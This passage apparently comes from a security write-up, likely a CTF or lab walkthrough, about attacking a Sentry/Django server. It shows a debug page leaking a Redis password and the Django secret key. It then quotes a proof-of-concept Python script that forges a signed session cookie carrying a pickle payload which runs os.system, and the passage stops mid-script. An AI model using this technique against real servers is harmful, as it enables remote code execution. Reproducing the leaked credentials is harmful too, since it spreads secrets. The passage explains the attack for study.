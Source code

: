 

It's not clear why this crashes, but it turns out this is the case on a
default installation. There's some really useful information in there:



    SENTRY_OPTIONS        

    {'cache.backend': 'sentry.cache.redis.RedisCache',
     'cache.options': {},
     'redis.options': {'hosts': {0: {'host': '127.0.0.1',
                                     'password': 'g7dRAO6BjTXMtP3iXGJjrSkz2H9Zhm0CAp2BnXE8h92AOWsPZ2zvtAapzrP8sqPR92aWN9DA207XmUTe',
                                     'port': 6379}}},
     'system.databases': {'default': {'ATOMIC_REQUESTS': False,
                                      'AUTOCOMMIT': True,
                                      'CONN_MAX_AGE': 0,
                                      'ENGINE': 'sentry.db.postgres',
                                      'HOST': 'localhost',
                                      'NAME': 'sentry',
                                      'OPTIONS': {},
                                      'PASSWORD': u'********************',
                                      'PORT': '',
                                      'TEST_CHARSET': None,
                                      'TEST_COLLATION': None,
                                      'TEST_MIRROR': None,
                                      'TEST_NAME': None,
                                      'TIME_ZONE': 'UTC',
                                      'USER': 'sentry'}},
     'system.debug': True,
     'system.secret-key': 'c7f3a64aa184b7cbb1a7cbe9cd544913'}



`system.secret-key` is the Django secret.

#### Exploit

Googling for "Django secret rce", the first links is to a post about
[getting RCE on
Facebook](https://blog.scrt.ch/2018/08/24/remote-code-execution-on-a-facebook-server/).
The author managed to crash one of their servers, and leak the secret
just like I did above. There's a simple POC script in the post:



    #!/usr/bin/python
    import django.core.signing, django.contrib.sessions.serializers
    from django.http import HttpResponse
    import cPickle
    import os

    SECRET_KEY='[RETRIEVEDKEY]'
    #Initial cookie I had on sentry when trying to reset a password
    cookie='gAJ9cQFYCgAAAHRlc3Rjb29raWVxAlgGAAAAd29ya2VkcQNzLg:1fjsBy:FdZ8oz3sQBnx2TPyncNt0LoyiAw'
    newContent =  django.core.signing.loads(cookie,key=SECRET_KEY,serializer=django.contrib.sessions.serializers.PickleSerializer,salt='django.contrib.sessions.backends.signed_cookies')
    class PickleRce(object):
        def __reduce__(self):
            return (os.system,("sleep 30",))
    newContent['testcookie'] = PickleRce()
